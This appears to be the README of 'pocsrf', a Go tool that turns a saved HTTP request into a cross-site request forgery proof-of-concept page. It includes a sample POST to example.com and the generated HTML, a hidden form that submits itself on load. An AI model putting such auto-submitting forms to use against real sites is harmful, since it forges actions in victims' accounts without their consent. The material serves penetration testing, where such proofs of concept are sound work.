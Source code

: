 # pocsrf
Yet another csrf generator.

# Installation
```bash
$ git clone https://github.com/lateralusd/pocsrf.git && cd ./pocsrf
$ go install ./...
$ ~/go/bin/pocsrf -help
Usage of pocsrf:
  -i string
    	input filename (default "req")
  -o string
    	output filename (default "out_csrf.html")
  -s	use http or https (default http)
```

# Usage
You can use it as a standalone binary, or as a library.

## Standalone binary
First you need to have request saved in a file, like the one below.

```http
$ cat req
POST /createUser HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: http://example.com
Connection: close

create=user&username=testUsername
```

If you are working with https, you need to pass `-s` flag.

```bash
$ pocsrf -i req -o output_csrf.html -s
$ cat output_csrf.html
<html>
        <body>
                <form action="https://example.com/createUser" method="POST">

                <input type="hidden" name="create" value="user"/> 
                <input type="hidden" name="username" value="testUsername"/> 

                </form>
                <script>
                        document.forms[0].submit();
                </script>
        </body>
</html>```

